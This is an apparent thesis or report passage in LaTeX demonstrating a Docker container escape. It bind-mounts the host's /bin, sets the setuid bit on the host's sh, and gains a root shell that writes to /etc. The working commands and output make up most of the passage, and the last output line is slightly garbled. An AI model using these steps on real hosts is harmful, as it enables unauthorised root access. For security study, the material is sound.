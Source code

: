\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for docgroup image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

COPY 2_attack_inside_the_container.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

And then start the container with the following commands:
\begin{lstlisting}[style=dockercommands]
$ docker build . -t docgroup
$ docker run --rm -it -v /bin/:/attack_bin docgroup
\end{lstlisting}

The script that is copied inside the container by the attacker is given below:
\begin{lstlisting}[style=shellscript, caption={2\_attack\_inside\_the\_container.sh}]
#!/bin/sh

chown root:root /attack_bin/sh
#chmod a+s: a:all users, +s:If someone else runs the file, they will run the file as the user/group who created it.
chmod a+s /attack_bin/sh
\end{lstlisting}

The attacker runs this script inside the container and then the container may be stopped. What this script does, is changing the ownership of sh file inside the bind mounted volume /attack\_bin and then modifying its permissions by adding the setuid permission for all users. The permission setuid means set user ID upon execution. Therefore, any user who execute /bin/sh on host will run it as its owner, who, in this case, is root. And that's exactly the next step of the attacker on host:

\begin{lstlisting}[style=terminal]
$ cd /bin
$ ./sh
\end{lstlisting}

And then runs the following commands inside the shell or commit any kind of attack he desires:
\begin{lstlisting}[style=terminal]
# whoami
root
# touch /etc/HelloFromTheOtherSide
\end{lstlisting}

If we check the permissions of the new file on host we can see that its owner is root:

\begin{lstlisting}[style=terminal]
$ ls -l /etc/ | grep Hello
-rw-rw-r-- 1 root root       0 Jan 19 20:52 %Hello%FromTheOtherSide
\end{lstlisting}

